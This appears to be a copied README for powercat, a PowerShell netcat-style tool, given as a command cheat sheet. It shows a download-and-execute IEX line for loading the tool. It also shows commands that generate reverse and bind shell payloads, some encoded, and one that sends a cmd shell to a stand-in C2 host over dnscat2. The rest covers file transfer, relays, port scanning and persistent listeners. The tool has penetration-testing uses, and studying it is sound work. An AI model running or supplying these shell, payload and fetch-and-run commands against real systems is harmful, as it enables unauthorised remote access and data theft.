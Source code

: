 ```yaml
---
category: Uncategorized
tags: []
---
```


https://github.com/besimorhino/powercat

## Installation

powercat is a powershell function. First you need to load the function before you can execute it. You can put one of the below commands into your powershell profile so powercat is automatically loaded when powershell starts.

```powershell
Load The Function From Downloaded .ps1 File:
    . .\powercat.ps1
Load The Function From URL:
    IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```

### Parameters:

```powershell
-l      Listen for a connection.                             [Switch]
-c      Connect to a listener.                               [String]
-p      The port to connect to, or listen on.                [String]
-e      Execute. (GAPING_SECURITY_HOLE)                      [String]
-ep     Execute Powershell.                                  [Switch]
-r      Relay. Format: "-r tcp:10.1.1.1:443"                 [String]
-u      Transfer data over UDP.                              [Switch]
-dns    Transfer data over dns (dnscat2).                    [String]
-dnsft  DNS Failure Threshold.                               [int32]
-t      Timeout option. Default: 60                          [int32]
-i      Input: Filepath (string), byte array, or string.     [object]
-o      Console Output Type: "Host", "Bytes", or "String"    [String]
-of     Output File Path.                                    [String]
-d      Disconnect after connecting.                         [Switch]
-rep    Repeater. Restart after disconnecting.               [Switch]
-g      Generate Payload.                                    [Switch]
-ge     Generate Encoded Payload.                            [Switch]
-h      Print the help message.                              [Switch]
```

## Basic Connections

By default, powercat reads input from the console and writes input to the console using write-host. You can change the output type to 'Bytes', or 'String' with -o.

```powershell
Basic Client:
    powercat -c 10.1.1.1 -p 443
Basic Listener:
    powercat -l -p 8000
Basic Client, Output as Bytes:
    powercat -c 10.1.1.1 -p 443 -o Bytes
```

## File Transfer

powercat can be used to transfer files back and forth using -i (Input) and -of (Output File).

```powershell
Send File:
    powercat -c 10.1.1.1 -p 443 -i C:\inputfile
Recieve File:
    powercat -l -p 8000 -of C:\inputfile
```

## Relays

Relays in powercat work just like traditional netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.

```powershell
TCP Listener to TCP Client Relay:
    powercat -l -p 8000 -r tcp:10.1.1.16:443
TCP Listener to UDP Client Relay:
    powercat -l -p 8000 -r udp:10.1.1.16:53
TCP Listener to DNS Client Relay
    powercat -l -p 8000 -r dns:10.1.1.1:53:c2.example.com
TCP Listener to DNS Client Relay using the Windows Default DNS Server
    powercat -l -p 8000 -r dns:::c2.example.com
TCP Client to Client Relay
    powercat -c 10.1.1.1 -p 9000 -r tcp:10.1.1.16:443
TCP Listener to Listener Relay
    powercat -l -p 8000 -r tcp:9000
```

## DNS and UDP

powercat supports more than sending data over TCP. Specify -u to enable UDP Mode. Data can also be sent to a [dnscat2 server](https://github.com/iagox86/dnscat2) with -dns. **Make sure to add "-e open --no-cache" when running the dnscat2 server.**

```powershell
Send Data Over UDP:
    powercat -c 10.1.1.1 -p 8000 -u
    powercat -l -p 8000 -u
Connect to the c2.example.com dnscat2 server using the DNS server on 10.1.1.1:
    powercat -c 10.1.1.1 -p 53 -dns c2.example.com
Send a shell to the c2.example.com dnscat2 server using the default DNS server in Windows:
    powercat -dns c2.example.com -e cmd
```

## Generate Payloads

Payloads which do a specific action can be generated using -g (Generate Payload) and -ge (Generate Encoded Payload). Encoded payloads can be executed with powershell -E. You can use these if you don't want to use all of powercat.

```powershell
Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
    powercat -c 10.1.1.15 -p 443 -e cmd -g
Generate a bind tcp encoded command which listens on port 8000:
    powercat -l -p 8000 -e cmd -ge
```

## Misc Usage

powercat can also be used to perform portscans, and start persistent servers.

```powershell
Basic TCP Port Scanner:
    (21,22,80,443) | % {powercat -c 10.1.1.10 -p $_ -t 1 -Verbose -d}
Start A Persistent Server That Serves a File:
    powercat -l -p 443 -i C:\inputfile -rep
```

#shell #reverseshell #filetransfer #relays #portscan #fileserver